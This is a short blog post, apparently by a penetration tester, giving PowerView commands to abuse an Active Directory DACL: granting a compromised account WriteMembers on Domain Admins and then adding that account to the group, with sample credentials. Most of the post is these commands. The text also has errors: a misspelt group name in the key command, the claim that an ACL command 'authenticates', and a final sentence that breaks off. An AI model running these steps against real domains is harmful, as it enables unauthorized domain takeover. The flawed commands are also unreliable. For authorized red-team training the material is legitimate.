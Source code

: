 ```yaml
---
layout: post
author: Chris
title: "Quick Pointer: Abusing DACL Fumbles using PowerView"
date: 2024-12-12
tags: powershell,AD,PowerView,Bloodhound
---
```

Ever come across an edge description in Boodhound on DACL abuse?  They tend to look something like the following:

![](/assets/img/2024-12-11_10-09.png)
The Windows abuse instructions on the edge tend to offer two ways to proceed, either using *net group* from net.exe or PowerView.  I've always used the net.exe method, but they recommend PowerView because the opsec for net.exe is challenging. 

![](/assets/img/2024-12-12_08-59.png)
I was curious to play around with PowerView's *Add-DomainGroupMember* to have another option in my toolbox and find out more about this improved opsec.  Unfortunately, I've run into this Bloodhound description enough times to know that the steps for the PowerView method aren't quite as clearly laid out in the Bloodhound description as they could be.  I don't think it's Bloodhound's fault, as the [original instructions](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) aren't effusive by any means.


## Adding an Existing User to Domain Admins by Modifying the DACL
To make it clearer, here are the steps to follow on a compromised domain-joined target.  This will add an existing user (for which you have obtained a password), who already has DACL privileges over the Domain Admins group, to the Domain Admins group itself.  For the sake of this example, lets say the user credentials we've compromised and want to add to Domain Admins is `paul.atreides:spicyworm` on a domain with a short name of *arrakis*.

First, it might pay to ensure you're authenticated to the Domain Controller as a member of the domain.  Set up the creds as variables in Powershell and then use *Add-DomainObjectAcl* to authenticate.
```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Domain Admins" -PrincipalIdentity paul.atreides -Rights WriteMembers
```

I'm no PowerShell expert, but you probably don't need to reenter the following two variables again.  I'm doing so for the sake of effectiveness.
```
$SecPassword = ConvertTo-SecureString 'spicyworm' -AsPlainText -Force
```

```
$Cred = New-Object System.Management.Automation.PSCredential('arrakis\paul.atreides', $SecPassword)
```

Now add the existing domain user, paul.atreides, who has DACL privileges over Domain Admins group, to the Domain Admins group.
```
Add-DomainGroupMember -Identity 'Domain Adims' -Members 'paul.atreides' -Credential $Cred
```

Now you can verify whether the operation succeeded.
```
Get-DomainGroupMember -Identity 'Domain Admins'
```


## Moving Forward
If successful, from there your options 
